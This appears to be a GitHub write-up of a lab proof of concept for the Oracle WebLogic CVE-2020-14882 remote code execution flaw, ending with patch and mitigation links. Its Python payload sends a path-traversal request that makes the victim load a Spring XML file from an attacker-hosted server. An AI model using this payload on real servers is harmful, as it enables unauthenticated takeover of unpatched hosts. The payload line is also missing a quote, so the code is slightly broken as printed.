 # WebLogic RCE Vulnerability - CVE-2020-14882

- **Introduction**

CVE-2020-14882 is a remote code execution (RCE) flaw in the Console component of Oracle WebLogic Server. The pre-authentication flaw was given an attack complexity of “low” and highlighted as “easily exploitable” by Oracle resulting in it being assigned a critical CVSSv3 score of 9.8. Successful exploitation would allow an unauthenticated attacker to compromise the Oracle WebLogic server over HTTP and take complete control of the host. ([About more - Tenable](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild))

<p align="center">
  <img width="400" height="200" src="https://1.bp.blogspot.com/-HMAjWrWp82g/X6jHH5t4eQI/AAAAAAAALAY/Sh_rTLr2PV0VPyKbX_Ft4glMI86SjBGpQCLcBGAsYHQ/s16000/Oracle+Weblogic+flaw.png">
</p>

- **Score Severity - CVSS 3** :warning:

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/j5L3z3W/Capturar.png">
</p>
<br>

Supported versions that are affected are **10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0.**
# **Exploring** - POC :heavy_exclamation_mark:

### Environment :computer:

<span style="color:red">Victim (WebLogic Server): 192.168.0.15 - Windows 10 PRO running WebLogic Server.</span>
<br>
<span style="color:blue">Attacker (Hosted file XML): 192.168.0.16 - Kali Linux - GNU/Linux - Debian.</span>

1. For the first step, let's create a python file that will exploit the vulnerability in weblogic.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/xHymN9d/1.png">
</p>

Payload:

```python
import requests
url = http://{}:{}/console/images/%252E%252E%252Fconsole.portal' \
		'?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext' \
		'(%22http://192.168.0.16:8000/Documents/teste.xml%22)'.format('192.168.0.15', '7001')
response = requests.get(url)
```

This payload will call a spring framework XML library to send a request to a server in the attacker's domain looking for the **teste.xml** file.

2. We need to prepare the XML file that will be called by the victim. We created a standard XML structure, however, we included the framework and the value fields are important in this step because they will be executed on the victim. For this example, we are calling the Windows calculator file.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/1n3Ftj5/2.png">
</p>

3. On the attacker's host, we need to create a server with the XML file to be requested by the victim. For ease, we use our own python server http.server.

<p align="center">
  <img width="500" height="50" src="https://i.ibb.co/WpRLY6m/3.png">
</p>


4. Starting the attack :dart:. We start the script from **step 1**, 
In this step, we were able to identify the log of the XML file calls being made by the victim
<p align="center">
  <img width="600" height="100" src="https://i.ibb.co/8g14HZV/4.png">
</p>

5. RCE successfully executed :boom:. On the victim's side, it is possible to view the remote execution (RCE) of the windows calculator


<p align="center">
  <img width="600" height="400" src="https://i.ibb.co/q16796k/5.png">
</p>


## Conclusion
On October 28, security researcher named Jang published a blog post (in Vietnamese) about CVE-2020-14882, including partial details that could be used for a PoC. Jang is no stranger to WebLogic flaws, being credited with discovering and reporting CVE-2020-2555 to Oracle, which patched the vulnerability in its January 2020 CPU. In March, Jang confirmed that CVE-2020-2555 was not completely fixed. The bypass for CVE-2020-2555 was disclosed by another researcher, Quynh Le of VNPT Information Security Center (ISC). Both Le and Jang are credited with reporting this bypass, which is identified as CVE-2020-2883. ([About more - Tenable](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild))


### Some links to help fix<br>
* Oracle WebLogic: CVE-2020-14882 : Critical Patch Update (Doc ID 2771503.1). ([Suporte Oracle](https://support.oracle.com/knowledge/More%20Applications%20and%20Technologies/2771503_1.html))

* Oracle Critical Patch Update Advisory - October 2020.
([Suporte Oracle](https://www.oracle.com/security-alerts/cpuoct2020traditional.html))

* How to Mitigate the Impact of CVE-2020-14882 Weblogic.
([Suporte Oracle](https://support.oracle.com/knowledge/Oracle%20Database%20Products/2733752_1.html))

* Vulnerability in the Oracle WebLogic Server product of Oracle Fusion Middleware.
([Mitre - CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14882))


#### Vulnerability Fixed ✅
